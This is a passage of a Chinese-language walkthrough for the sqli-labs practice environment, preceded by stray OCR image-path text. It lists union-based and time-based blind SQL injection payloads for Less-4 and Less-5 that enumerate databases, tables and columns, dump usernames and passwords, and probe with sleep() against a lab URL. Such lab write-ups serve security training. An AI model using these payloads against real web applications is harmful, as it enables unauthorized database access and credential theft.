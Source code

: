 4.爆所有库.

```
id=1") and 1=2 union select 1,database(),3 --+   查看当前库

id=1") and 1=2 union select 1,group_concat(schema_name),3 from information_schema.schemata --+   查看所有库
```

5.爆指定库的所有表

```
id=1") and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
或者
id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

6.爆指定表的所有字段

```
id=1") and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

7.爆出字段内容

```
id=1") and 1=2 union select 1,username,password from users where id=1 --+

id=1") and 1=2 union select 1,group_concat(username),group_concat(password) from security.users --+
```

# **Less-5 **

**GET - Double Injection - Single Quotes - String (双注入GET单引号字符型注入)**



### **方法一：时间延迟型手工注入**

时间延迟型手工注入，正确会延迟，错误没有延迟。

判断表中存在几个字段

```
id=1' order by 3 --+
```

验证时间延迟型的盲注：

```
http://daishen.ltd:1112/sqli-labs-master/Less-5/?id=1' and sleep(5)--+
```

发现明显延迟，

爆库长payload经过几次尝试，发现数据库长度为8时有明显延迟5秒。
